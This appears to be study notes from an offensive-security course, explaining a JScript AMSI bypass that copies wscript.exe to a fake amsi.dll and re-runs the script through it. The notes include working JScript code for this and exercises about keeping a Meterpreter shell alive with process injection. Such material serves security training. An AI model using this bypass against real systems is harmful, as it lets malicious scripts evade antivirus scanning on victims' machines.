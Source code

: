 #### TODO: Notes to attempt build Generic Jscript AMSI Bypass

- Win11 CLSID for jscript.dll is different than in Win10 `Computer\HKEY_CLASSES_ROOT\CLSID\{cc5bbec3-db4a-4bed-828d-08d78ee3e1ed}\InprocServer32`
- Newer Win10 builds don't query the AMSI bypass registry setting
	- amsi.dll is called for analysis


#### Preventing AMSI from loading or load another version

- Using Windbg can show that amsi.dll is loaded from System32 using LoadLibraryExW where `R8` is set to `0x800` which is the enum `LOAD_LIBRARY_SEARCH_SYSTEM32`.
- If the system sees another amsi.dll is loaded, the real amsi.dll will fail to load
- Copy wscript.exe to amsi.dll outside of C:\\Windows\\System32 and then use the WScript `Exec` method which is a wrapper for `CreateProcess` Win32 API. `CreateProcess` ignores the file extension and parses the file header to determine if the object called can run.

##### Example code:
```vb
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```

- *However*, Windows Defender still flags the code and will terminate execution unless one migrates the process or uses a payload that performs process injection or hollowing

### Exercises 7.6.3

1. Recreate the AMSI bypass by renaming wscript.exe to "amsi.dll" and executing it.
2. Instead of a regular shellcode runner, implement this bypass with a process injection or hollowing technique and obtain a Meterpreter shell that stays alive after the detection.

#### NtQueryInformationProcess
```cpp
__kernel_entry NTSTATUS NtQueryInformationProcess(
  [in]            HANDLE           ProcessHandle,
  [in]            PROCESSINFOCLASS ProcessInformationClass,
  [out]           PVOID            ProcessInformation,
  [in]            ULONG            ProcessInformationLength,
  [out, optional] PULONG           ReturnLength
);
```
